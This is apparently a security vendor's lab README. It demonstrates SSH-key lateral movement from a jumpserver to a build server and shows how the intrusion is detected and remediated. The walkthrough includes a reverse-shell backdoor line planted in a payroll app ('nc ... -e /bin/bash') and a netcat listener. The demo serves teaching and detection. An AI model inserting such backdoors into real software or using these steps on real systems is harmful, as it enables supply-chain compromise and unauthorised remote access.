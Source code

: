 # Multi-Machine Lateral Movement

This scenario shows an attacker gaining access to a public-facing server outside of the cluster, and using it to connect to a more restricted build environment.

## Pre-requisites

This scenario requires two machines to be set up outside the Kubernetes cluster using the install script. To begin, you will need the IP address and SSH key to access the first server (or "jumpserver").

## Running the Exploit

There are two machines in this scenario: a "jumpserver" and a build server (`buildbox`). The build server is supposed to be restricted, and can only be accessed from machines within the same account. To use the build server for publishing new versions of private images, developers first connect to a public-facing jumpserver using SSH. From there, they can connect to the build server.

In this scenario, we start as the attacker, who has just acquired the SSH key for the jumpserver. Let's start by connecting to the machine.

```sh
ssh -i ~/path/to/jumpserver/key JUMPSERVER_USER@JUMPSERVER_IP
```

Now, take a look at the history:

```sh
history
```
```
    1  ls -la
    2  hostname
    3  systemctl status sshd.service 
    4  ls .ssh/
    5  ssh-keygen
    6  cat .ssh/buildbox_id.pub 
    7  ssh -i ~/.ssh/buildbox_id root@203.0.113.45
    8  history
```

The developers used the SSH key `buildbox_id` to access the build server. It also looks like the SSH key is still present:

```sh
ls ~/.ssh
```
```
authorized_keys  buildbox_id
```

So now, we can connect to the build server:

```sh
# note: use the command that appeared in your history for a valid user/IP
ssh -i ~/.ssh/buildbox_id root@203.0.113.45
```

If we look at the history, we can see some of the old packages that were built here:

```sh
history
```
```
    1  git clone git@github.com:example/build.git 
    2  cd build
    3  make push-container
    4  cd ..
    5  rm -rf build
    6  git clone git@github.com:example/payroll-app.git 
    7  cd payroll-app
    8  make build
    9  make push-container
   10  cd payroll-app
   11  git pull
   12  make push-container
   13  history
   14  ls ~/.ssh
   15  ls ~/payroll-app/
   16  cat payroll-app/Makefile 
   17  history
```

Given the build server is fetching private code using SSH, we could use the SSH keys here to log in to GitHub and view the company's repositories:

```sh
ls ~/.ssh/
```
```
authorized_keys  github-login
```

Instead, let's take a look at the `payroll-app` directory to get some more details about how the new version deployment process is handled:

```sh
ls ~/payroll-app/
```
```sh
cat payroll-app/Makefile
```

Given the access on this machine, we could edit the `payroll-app` package to add a backdoor that we could access, and then push a new version of the package.

As an example, let's install netcat for setting up a reverse shell:

```sh
sudo yum install nmap-ncat
```

And validate that we can use `nc`:

```sh
nc --version
```

Then, we can edit the payroll app to give us the backdoor, such as connecting to this machine with a reverse shell.

```py
# file: payroll-app/payroll-calc.py
# ...
import os; os.system("nc 203.0.113.45 2222 -e /bin/bash")
```

For this demo, the buildbox is not actually set up to generate new images, but at this point is where we would build the new image, start a listening server, and wait for someone to deploy the backdoor:

```sh
nc -l -p 2222
```

To see a full supply-chain exploitation and how Spyderbat detects it, visit the [supply chain attack demo](../supply_chain/).

## Investigation


In the Spyderbat Console, navigate to the Dashboard page to begin our investigation. In the Security tab, under "Recent Spydertraces with Score > 50", a new trace should appear, likely named "interactive_ssh_from_[IP_ADDRESS]", or "suspicious_crud_command_cat". Select these Spydertraces, and select "Start Process Investigation" to see the events of the exploit laid out in a Causal Tree in the investigation view:

![An example of the resulting graph](./lateral_movement_external_graph.png)

Your view should look similar to the trace above. If it does not, make sure you selected a Spydertrace object from both machines on the dashboard page. If you are still missing details, click the "Add Next X Objects" button on some of the traces listed in the records table next to the graph:

![A view of the records table, showing the Add Next 18 Object button](./recordslist_example.png)

From this graph, we can easily see that the attacker is installing unexpected packages and running suspicious commands like `nc`. We can also see that the attacker's access came from the machine on the right, which we know is the jumpserver. If we select the `vim` process, we can also see that the Payroll app was modified by the command arguments in the details pane:

![The details pane, showing the command with the filename](./vim_details.png)

## Next Steps

Now that we know the attacker's method of access and persistence method, we can take steps to remediate:

- rotate both machines' SSH keys
- remove the backdoor from the payroll-prod system.
- remove netcat from the build system

## Further Reading

- [Supply Chain Attack Scenario](../supply_chain/)
- [End-to-End Demo Scenario](../end_to_end/)
